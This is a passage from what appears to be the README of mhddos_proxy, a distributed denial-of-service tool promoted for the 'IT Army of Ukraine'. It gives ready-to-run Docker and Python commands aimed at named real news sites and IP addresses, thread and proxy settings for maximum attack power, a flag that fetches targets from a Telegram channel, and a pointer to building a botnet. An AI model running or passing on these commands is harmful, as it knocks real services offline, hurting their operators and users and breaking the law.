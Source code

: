 DDoS Tool for IT Army of Ukraine

    Built-in proxy database to attack from a huge number of IPs around the world
    Ability to set many goals with automatic load balancing
    Many different DDoS methods
    Resource efficiency due to asynchronous architecture

⏱ Recent updates

Windows Version Update Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16

    05/18/2022
        Added --copies setting to run multiple copies (recommended for use with 4+ CPU and network> 100 Mbps).

    05/15/2022
        Completely updated asynchronous version, which provides maximum efficiency and minimum load on the system
        Efficient operation with much larger values ​​of the -t parameter (up to 10k) without the risk of "hanging" the whole machine
        A completely new algorithm for load distribution between targets in order to achieve maximum attack power
        Added RGET, RHEAD, RHEX and STOMP attacks.

📜 Earlier
💽 Installation | Installation - instructions HERE
🕹 Launch | Running (different goal options are given)
Docker (for Linux, add sudo at the beginning of the command)

docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp: //194.54.14.131: 4477

Python (if it doesn't work - just python or python3.10 instead of python3)

python3 runner.py https://ria.ru 5.188.56.124:80 tcp: //194.54.14.131: 4477

🛠 Settings (more in the CLI section)

All parameters can be combined, you can specify before and after the list of goals

Change load - -t XXXX - maximum number of simultaneously open connections, default - 1000 (if the machine has one CPU) or 7500 (if more than one).

For Linux, add sudo at the beginning of the docker command

docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

To view information about the progress of the attack, add the --table check box for the table, --debug for the text

docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru
docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru

To attack targets from https://t.me/itarmyofukraine2022 add the --itarmy option

docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table --itarmy

📌Automatic new proxy finder for mhddos_proxy

The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder
🐳 Community

    Detailed analysis of mhddos_proxy and installation instructions
    Analysis of mhddos_proxy
    Example of running via docker on OpenWRT
    Create a botnet with 30+ free and standalone (even with PC off) Linux servers
    VPN

CLI

usage: runner.py target [target ...]
                 [-t THREADS]
                 [-c URL]
                 [--table]
                 [--debug]
                 [--vpn]
                 [--rpc RPC]
                 [--http-methods METHOD [[METHOD ...]]
                 [--itarmy]
                 [--copies COPIES]

positional arguments:
  targets List of targets, separated by space

optional arguments:
  -h, --help show this help message and exit
  -c, --config URL | path URL or local path to file with attack targets
  -t, --threads 2000 Total number of threads to run (default is CPU * 1000)
  --table Print log as table
  --debug Print log as text
  --vpn Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
  --rpc 2000 How many requests to send on a single proxy connection (default is 2000)
  --proxies URL path file or local path (ex. proxies.txt) to file with proxies to use
  --http-methods GET List of HTTP (s) attack methods to use (default is GET + POST | STRESS).
  --itarmy Attack targets from https://t.me/itarmyofukraine2022
  --copies 1 Number of copies to run (default is 1)

Own proxies
File format:

IP: PORT
IP: PORT: username: password
username: password @ IP: PORT
protocol: // IP: PORT
protocol: // IP: PORT: username: password
protocol: // username: password @ IP: PORT

where protocol can be one of 3: http | socks4 | socks5, if protocol is not specified, it will be selected by default - http
for example for a public proxy: protocol = socks4 IP = 114.231.123.38 PORT = 3065 the format will be:

socks4: //114.231.123.38: 3065

and for private: protocol = socks4 IP = 114.231.123.38 PORT = 3065 username = isdfuser password = ashd1spass format can be one of the following:

socks4: //114.231.123.38: 3065: isdfuser: ashd1spass
socks4: // isdfuser: ashd1spass @ IP: PORT

URL - Remote file for Python and Docker

python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https: //